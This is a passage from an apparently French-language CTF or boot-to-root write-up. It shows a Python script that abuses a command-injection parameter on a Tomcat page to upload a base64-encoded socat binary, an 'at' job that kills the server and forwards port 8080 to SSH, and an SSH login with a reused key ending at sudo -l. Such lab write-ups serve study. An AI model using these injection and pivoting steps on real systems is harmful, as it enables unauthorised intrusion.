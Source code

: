 D'abord j'ai fait un dernier script Python (demain j'arrête) pour uploader des fichiers :  

```python
from binascii import hexlify
import requests

URL = "http://192.168.1.10:8080/test.jsp?path=python3+/tmp/pyexec.py+{}"

sess = requests.session()
with open("socat_base64") as fd:
    for line in fd:
        line = line.strip()
        cmd = "echo -n {} >> /tmp/socat_base64".format(line)
        sess.get(URL.format(hexlify(cmd.encode()).decode()))
```

L'idée ici est d'abord d'encoder en local (sur la machine d'attaque) le binaire [socat](http://www.dest-unreach.org/socat/) en base64 puis de le recréer côté serveur ligne par ligne. Une fois terminé on décode le base64 côté serveur pour récupérer le socat original. Une astuce que j'avais utilisé pour un précédent CTF.  

Maintenant la problématique est de faire exécuter une série de commande via le serveur Tomcat dont la première commande tue le serveur mais qui doit tout de même exécuter les commandes restantes...  

*crontab* pourrait le faire mais il faut éditer un fichier... et *at* est présent sur le système. C'est donc aussi simple que :  

```plain
echo 'kill -9 1415; sleep 5; /tmp/socat TCP4-LISTEN:8080,fork,reuseaddr TCP4:127.0.0.1:22' | at now + 1 minutes
```

On attend un peu, on se connecte via SSH sur le port 8080... et ça marche !  

[Le train de tes injures roule sur le rail de mon indifférence](https://www.youtube.com/watch?v=eO8PVwwUEsI)
------------------------------------------------------------------------------------------------------------

Sauf que le shell pour *tomcat8* est */bin/false* donc on ne va pas bien loin :D  

A moins que bien sûr la clé SSH ait été réutilisée pour l'utilisateur *bill* :  

```plain
$ ssh -i /tmp/tomcat8_key bill@192.168.1.10 -p 8080
Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-35-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * What are your preferred Linux desktop apps?  Help us set the default
   desktop apps in Ubuntu 18.04 LTS:
   - https://ubu.one/apps1804

0 packages can be updated.
0 updates are security updates.

Failed to connect to http://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Thu Oct 12 14:31:03 2017
bill@b2r:~$ id
uid=1000(bill) gid=1000(bill) groups=1000(bill),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),116(lpadmin),117(sambashare)
bill@b2r:~$ sudo -l
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

```